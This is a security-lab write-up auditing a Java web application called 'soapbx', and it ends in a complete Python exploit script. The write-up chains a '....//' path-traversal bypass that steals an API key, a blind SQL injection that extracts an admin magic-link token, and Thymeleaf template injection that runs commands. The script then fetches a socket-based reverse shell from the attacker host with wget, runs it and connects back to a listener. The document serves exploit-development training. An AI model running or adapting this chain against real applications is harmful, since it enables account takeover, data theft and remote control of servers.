## AUDIT

For the soapbx application we start by navigating to the IP address:



By the first look and feel, the application seems to be a place for users to create, read and publish stories across different genre.

The application has a sign up option where we can create an account for testing purposes:



We RDP into the test machine, and see there's a jar file for the application:


We see that the machine has jd-gui installed for debugging.

We open the file in jd-gui:



For better debugging, we want this file in VS code, so we can navigate to File -> Save All Sources  and choose a location of our choice for the zip file:




With the zip file now installed, we can extract it and open the folder in VS Code:


Opening in VS code:



With the code ready for debugging, we can start off by mapping out all REST methods with the following query in a terminal:

```sh
grep -RHi -e "@GetMapping" -e "@RequestMapping" -e "@PostMapping"
```

Cleaning up the output in VS code, we get this:

```Java
@GetMapping({"/admin/categories"})
@PostMapping({"/admin/category/create"})
@GetMapping({"/admin/category/{id}/delete"})
@GetMapping({"/story"})
@PostMapping({"/story"})
@GetMapping({"/story/{id}"})
@GetMapping({"/story/{id}/download"})
@GetMapping({"/download"})
@PostMapping({"/story/{sid}/comment"})
@GetMapping({"/story/{id}/edit"})
@PostMapping({"/story/{id}/edit"})
@GetMapping({"/admin"})
@GetMapping({"/admin/users"})
@RequestMapping(value = {"/admin/users/category"}, method = {RequestMethod.GET})
@GetMapping({"/admin/backupdb"})
@RequestMapping(value = {"/admin/stories/category"}, method = {RequestMethod.GET})
@PostMapping({"/admin/users/create"})
@PostMapping({"/admin/user/{id}/ban"})
@PostMapping({"/admin/user/{id}/activate"})
@RequestMapping(value = {"/admin/welcomeEmail"}, method = {RequestMethod.GET})
@RequestMapping(value = {"/admin/welcomeEmail/edit"}, method = {RequestMethod.POST})
@GetMapping({"/login"})
@PostMapping({"/login"})
@GetMapping({"/logout"})
@PostMapping({"/generateMagicLink"})
@GetMapping({"/magicLink/{token}"})
@GetMapping({"/user/changePassword"})
@PostMapping({"/user/updatePassword"})
@GetMapping({"/user/uploadImage"})
@PostMapping({"/user/uploadImage"})
@GetMapping({"/user/{id}/avatar"})
@PostMapping({"/like/{sid}"})
@GetMapping({"/api", "/api/"})
@RequestMapping(value = {"/api/info"}, method = {RequestMethod.GET}, produces = {"application/json"})
@RequestMapping(value = {"/api/stories"}, method = {RequestMethod.GET}, produces = {"application/json"})
@RequestMapping(value = {"/api/users"}, method = {RequestMethod.GET}, produces = {"application/json"})
@RequestMapping(value = {"/api/user/{id}"}, method = {RequestMethod.GET}, produces = {"application/json"})
@RequestMapping(value = {"/api/user/{id}/activate"}, method = {RequestMethod.POST}, produces = {"application/json"})
@RequestMapping(value = {"/api/user/{id}/ban"}, method = {RequestMethod.POST}, produces = {"application/json"})
```

We see multiple interesting endpoints, but 4 most noticeable one's:
1. `/admin/*`
2. `/user/download and user/uploadImage`
3. `/api/*`
4. `/generateMagicLink` and `/magicLink`

The main goal is to find a vulnerability that leads to RCE or authentication bypass, for this, we can start to look for any vulnerable SQL queries, that do not go through sanitization.

First we look for select statements to understand how queries are being formed:



It would seem that all queries are stored in an sql string variable, and are available in `*Dao.java` files.

To find vulnerable SQLI queries, we enable regex and search for the following:
`sql\s=.+\+`

This regex, will look for any SQL queries in which a variable is being passed directly, making it vulnerable if proper sanitization is not performed.


We come across 18 results.
Going through each query, we find even though the implementation is vulnerable, there's sanitation in places for example the following getDecoratedCategoryById function:

```java
public DecoratedCategory getDecoratedCategoryById(int id) {
	String sql = "SELECT c.id, c.name, count(s.*) as storyCount FROM categories c  LEFT JOIN stories s ON c.id = s.category_id WHERE c.id = " + id + " GROUP BY c.id, c.name ORDER BY c.name DESC ";
	return (DecoratedCategory)this.template.queryForObject(sql, new DecoratedCategoryRowMapper());
```

The query may look vulnerable at first, as id parameter is being directly passed without sanitization, however, checking the implementation of the function:



We see that:
1. The function requires admin authentication.
2. The "id" parameter is being sanitized as an integer, thus passing a string would error out the request.

Going through all the potential vulnerable queries, the most interesting one are the following:



The query may not look vulnerable at first, as escapeString method is being used, however, it's merely a small caveat we can overcome.
Other than that, the query can take both, a string and an int as argument, making this a prime target.

To understand where the `activateUser` function is being implemented, we can simply look for the function implementation.
Apart from the `/admin` endpoint, which requires authentication, the only other place we see the query being used is the `/api` endpoint, however, even that requires authorization:

```java
@RequestMapping(value = {"/api/user/{id}/activate"}, method = {RequestMethod.POST}, produces = {"application/json"})
   public ResponseEntity<String> activateUser(HttpServletRequest request, @PathVariable("id") String sid) {
     if (isAuthorized(request)) {
       
       int code = 0;
       String message = "";
       String id = SqlUtil.escapeString(sid);
       try {
         this.userDao.activateUser(id);
         code = 200;
         message = "{\"message\":\"User activated.\"}";
       } catch (Exception e) {
         logger.error("Failed to activate userid : " + id);
         logger.error(e.getLocalizedMessage());
         code = 500;
         message = "{\"message\":\"An exception occurred.\"}";
       } 
       
       return ResponseEntity.status(code).body(message);
     } 
     return ResponseEntity.status(401).body("{\"message\":\"You are not authorized.\"}");
   }
```



To understand how the authorization works, we can study the `isAuthorized` function.
Looking for the function, we find 3 functions that are wrappers for each other:



We see that the `isAuthorized`, just calls the `isValidKey` function with the `getKeyFromRequest` function.
The `getKeyFromRequest` function does nothing but, extract the `apiKey` parameter from the  request sent to the server.
The `isValidKey` function, on the other hand is our main interest, this is the function that checks if the key is valid or not.
For this, it calls the `getApiKey` method, and compares it with the key provided as the argument, which returns a Boolean value for authorization.

Tracking the `getApiKey` function, we find:



A simple function which calls the main `initializeAPI` method, if the `apiKey` property is set to null.
Otherwise, it stores the `apiKey` value into a sting variable called `Key` and returns the same.

Finally tracking the `initializeAPI` function:


We see, that the function generates a new key in the `apikey` file in the `/conf` folder, if there exists none.
When we check the `conf` folder, however, we do not see any key:



However, this is only because the `initializeAPI()` function has not been called yet.
If we visit the `/api/users/`  endpoint:



The message we are not authorized which is because of the lack of the apiKey, however, when we visit the `conf` folder again:



We see that the folder is populated with a new apikey.
However, this is not much use to us, as we cannot use the key as of now.
For this, we can start to look for some local file inclusion vulnerability or a directory traversal vulnerability, to extract this key.

This brings us back to the `/download` endpoint, we noticed earlier on.
Navigating to the endpoint, we see that the route is rather simple:



The download route does as it says, it takes the parameter `id`, and then downloads the file in the name of `soapbx.pdf`, in the downloads directory which are stored as hashes.
The download directory can be tracked from the `getPDF` method in the DownloadService.java file:



To test this function, we keep a test file inside the downloads directory of the web root:



And try to download the file from the endpoint:



We are able to download the file, and we can check to see that this is the same file.
However, this is only useful to use if we can download the api key from the `conf` folder.
For this, we need the download endpoint to be able to traverse directories.
At first this does not seem possible as there's sanitization in place:

```java
byte[] image = this.downloadService.getPDF(id.replace("../", ""))
```

However, this can be easily bypassed, using `....//` instead of `../`
Testing this bypass, we see that it works:



With the API key in hand, we can make requests to the API, and start testing the potential SQL injection we found.

Testing the key, it indeed works:



We can pass the activate request to burp, and test it there:



In this situation, the parameter we control is `id` ("7" in figure).

To understand the query being passed, how much of it we control, and how can it be useful to us, we can copy the query from the source code, and test it out in the PostgreSQL shell:



We are working with a few tables here.
The most interesting ones are users, tokens and possibly templates.

We can examine what each of these tables hold:



The users tables hold the usernames, base 64 encoded password hashes, whether the the user is an admin or not, whether the user is active, and there email.

The tokens table seem to be empty as of now.

The templates table seem to be populated with some kind of text template to be sent to new users.

The query we're working with is as follows:

```sql
UPDATE users SET isActive = true WHERE id = 7 -- we control id
```

The update query, sets the state of the user to active.
By common sense, we can say only active users are allowed to login and use the application.
The other query is the ban query:

```sql
UPDATE users SET isActive = false WHERE id = 7
```

However, the ban query is sanitized as it only lets integers pass, otherwise errors out:



This functionality is not available in the activate function, and thus we can pass a string, making the query vulnerable.
To practically test the sql injection, we can test for the following query:

```sql
UPDATE users SET isActive = true WHERE id = 7 AND 1 IN (1);
```

The query here, executes  only if the integer 1 is available in the list of (1).
If, the request does not error out, we have an sql injection we can work with.
The payload will be: 
`7 OR 1 IN(1)`
(url encoded):



We see that the query gets executed and we see the message "user activated".
We can cross check that this works by setting the `isActive` Boolean of user with id 7 to false, and see it change to true after the query gets executed.

We can also ban the same user with the ban function:



Checking from the `/api/users?apikey=` endpoint, we see that the `isActive` is now set to false:



Running our sql query again, with the false statement `7 AND 1 IN(2)` :



We see that even though the response says "user activated":



The user is indeed not activated.
However, upon using a true query `7 AND 1 IN(1)`:



The user truly gets activated this time around:



We now have verified our SQL injection.
However, the more important point is the use case.
There are a few things to keep in mind:
1. We can ban users
2. We can activate banned users with the sqli
3. We can verify if a user is banned or not
4. If a banned user is not activated with the query, it means that the query had a false result.

With this in mind, we can create a script, which first bans a user, then we compare the characters of data inside the table in the vulnerable query.
If the query is true, the user will be activated, which we will check from the endpoint.
If however, the query is false, the user will stay banned, which we can again check from the endpoint.
This creates a very special case of an error-based SQL injection.

Now, even though we can exfiltrate data with our unique error based SQL injection, we need to understand what to exfiltrate.
We could extract the admin hash, from the users table, however, we have a better option to ensure no cracking of a hash is needed.
For this, we will go back to the interesting endpoints.



The `/generateMagicLink` endpoint, takes in a username as an argument, passes it to the `getUserByName` function, generates a new token, with the `createToken` function, then passes the token, and the `id` of the user, to the `insertTokenForUser` function.
Tracking this particular function:



We see that it uses an INSERT SQL query, to insert the newly generated token, into the tokens table.

The token can be then used with the `/magicLink/{token}` endpoint:



This endpoint, takes a string as an argument(the token), then confirms if the token is valid from the `getUserIdForToken` function, and authenticates the user in who's the token is created.

This means, if we generate a magic link for the administrator, then use the error based SQL injection, to extract the token, we can use it to get an admin login, bypassing the authentication.

With the authentication bypassed, we can move on to getting remote code execution.
We can start exploring RCE vectors from the same list of endpoints we made earlier.

The most interesting endpoint seems to be the `/admin/WelcomeEmail` endpoint.
Visiting it we see:



We see the same template that we saw in the templates table of the database.
We understand that templates are in use, however, to understand what type of templating engine is being used, we can read the code, as we run across the `lib` directory.

In the directory, multiple libraries are mentioned but the most interesting one we see are:


The thymeleaf libraries.
Looking up thymeleaf, we notice that thymeleaf is a templating engine for Java web applications:



Templating engines often indicate that the server could potentially be vulnerable to Server-Side Template Injection(SSTI), which lets an attacker inject code into the system using the template.

Thymeleaf is also a vulnerable template, if it is made available to an attacker:
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

We see that, the templating engine is being used in the `/admin/welcomeEmail` endpoint. So to understand where the template is getting executed, we can analyze the source code for the same endpoint.
However, the endpoint does not do much, what's more interesting is the `/admin/welcomeEmail/edit` endpoint:



The POST endpoint takes content as an argument, and passes it into the `editContent` variable, which is then passed into the `updateWelcomeEmail` method.
Tracking this method:



We see that it edits the content in the templates table of the database.
We run across another method, `getWelcomeEmail`, which fetches the same content from the templates database.
This is interesting, because if we understand where this method is implemented, we can possibly see where the template is getting executed.

Tracking this method:



We see that it is implemented under the `emailNewUser` function, which also uses the `getTemplateEngine` function. Tracking this, we see this is where the template gets executed.
Meaning, if we track `emailNewUser` function's implementation, we'll find how to execute the template:

Tracking `emailNewUser`:



The `emailNewUser` endpoint, is being used under the `/admin/users/create` endpoint.
This endpoint, takes 4 arguments, 2 of which are optional:
1. name - String(username)
2. email - String(user's email)
3. isAdmin - Boolean(default is False)
4. isMod - Boolean(default is False)

When the necessary arguments are given when the endpoint is called, a new user is created, executing the template from the `emailNewUser` method.

This means, if we want to use the template maliciously, we will first edit the template to add our own code from `/admin/welcomeEmail/edit` endpoint.
And then execute the template by creating a new user with the `/admin/users/create` endpoint.
This way we can get Remote Code Execution.


## BURP REQUESTS

Generating the API key:



Getting the api key using directory traversal:



Using the api key for listing users and there active status:



Using the api key to ban a user:



Using the api key to activate the user with the error based SQL injection:



(the POC is for select version() statement, but we can use select token from tokens in the script)

Extracting the admin token using the script:


Using the magic link extracted from SQL injection to login:



Following redirection, we are logged in as admin:



Opening session in browser:



We can find the local.txt in `/admin` endpoint:



In burp:



Editing the template with the payload from book.hacktricks:
```java
<a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('ping -c 5 192.168.167.100')}" th:title='pepito'>
```

Edit the template:


Send to burp:



With the template edited, we can now create a new user to execute it:



in burp:



Soon as we create the new user, the code executes, and we get 5 pings on our attacker box:



## CODE

```python
import requests
import sys
import os
from time import sleep

proxies={"http":"127.0.0.1:8080", "https":"127.0.0.1:8080"}

def get_admin_apikey():
    print("[+] Generating admin API key....")
    req = requests.get("http://192.168.167.157/api/users")
    print("[+] Downloading key..")
    req1 = requests.get("http://192.168.167.157/download?id=....//conf/apikey")
    adminapikey = req1.text
    return(adminapikey)

def generate_token():
    req = requests.post("http://192.168.167.157/generateMagicLink", data={'username':'admin'})

def activate(injstr, key):
    for j in range(48,123):
        req1 = requests.post("http://192.168.167.157/api/user/{}/activate".format(injstr.replace("[CHAR]", str(j))), data={'apiKey':key})
        req2 = requests.get("http://192.168.167.157/api/users?apiKey={}".format(key))
        if req2.json()[6]["active"] == "true":
            return j

def sqli_function():
    apikey = get_admin_apikey()
    print("[+] API KEY :" + apikey)
    print("[+] Magic link token:")
    f = open('token.txt', 'w')
    for i in range(1, 65):
        sqli = ("1%20OR%20CHR([CHAR])%20IN%20(select%20(substr((select token from tokens where user_id = 1),{},1)))").format(i)
        req = requests.get("http://192.168.167.157/api/users?apiKey={}".format(apikey))
        if req.json()[6]["active"] == "false":
            extended_chr = chr(activate(sqli, apikey))
        else:
            req1 = requests.post("http://192.168.167.157/api/user/7/ban", data={'apiKey':apikey})
            extended_chr = chr(activate(sqli, apikey))
        sys.stdout.write(extended_chr)
        sys.stdout.flush()
        f.write(extended_chr)
    f.close()

def remote_code_exec():
    f = open('token.txt', 'r')
    tokentext = f.read()
    token = tokentext.strip()
    f.close()
    print('\n')
    print("[+] Logging in with magic link")
    s = requests.Session()
    s.get("http://192.168.167.157/magicLink/{}".format(token))
    localflagresp = s.get("http://192.168.167.157/admin")
    b = open('sopabxresp.txt', 'w')
    b.write(localflagresp.text)
    b.close()
    os.system("""grep -E 'code.{0,60}' sopabxresp.txt | cut -d ">" -f 3 | cut -d "<" -f 1 > lflag.txt""")
    printflag = open('lflag.txt', 'r')
    printmyflag = printflag.read()
    printflag.close()
    print("[+] Local flag is:")
    print(printmyflag)
    print("[+] Writing shell to /var/www/html directory....")
    shell = open('/var/www/html/shell.py', 'w')
    ##change IP/port here##
    shell.write("""import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.167.100",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])""")
    shell.close()
    print("[+]Shell written")
    print("[+] Starting apache server to host the shell.....")
    os.system("sudo systemctl start apache2")
    print("[+] waiting 30 seconds for service to start....")
    sleep(30)
    print("[+] apache service started")
    print("[+] Uploading reverse shell....")
    ##change IP/port here##
    s.post("http://192.168.167.157/admin/welcomeEmail/edit", data={"content":"""<html><body><p th:text="@{|Hello ${username}|}">Hello!</p><br/>Soapbx may be our platform, but the content comes from <em>creative people like you</em>. An administrator has created an account for you. Your password is: <p th:text="${password}">password</p><br/> We are excited to see what you create!</body></html><a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('wget http://192.168.167.100/shell.py')}" th:title='pepito'>"""})
    s.post("http://192.168.167.157/admin/users/create", data={"name":"msms", "email":"msms@test.com"})
    print("[+] Executing reverse shell, check listener....")
    ##change IP/port here##
    s.post("http://192.168.167.157/admin/welcomeEmail/edit", data={"content":"""<html><body><p th:text="@{|Hello ${username}|}">Hello!</p><br/>Soapbx may be our platform, but the content comes from <em>creative people like you</em>. An administrator has created an account for you. Your password is: <p th:text="${password}">password</p><br/> We are excited to see what you create!</body></html><a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('python3 shell.py')}" th:title='pepito'>"""})
    s.post("http://192.168.167.157/admin/users/create", data={"name":"abcd", "email":"abcd@test.com"})
    print("[+] stopping apache service....")
    os.system("sudo systemctl stop apache2")
    print("[+] service stopped")
    

def main():
    print("PLEASE RUN WITH ROOT OR SUDO PERMISSIONS")
    print("###################################################")
    print("###################################################")
    print("OPEN NETCAT LISTENER ON 192.168.167.100 ON PORT 1234 TO GET REVERSE SHELL")
    print("###################################################")
    print("###################################################")
    print("IF YOU WISH TO TAKE REVERSE SHELL ON SOME OTHER IP/PORT, PLEASE EDIT THE remote_code_exec FUNCTION ACCORDINGLY")
    print("###################################################")
    print("###################################################")
    generate_token()
    sqli_function()
    remote_code_exec()

main()
```

## REVERSE SHELL


Executing script to get reverse shell:

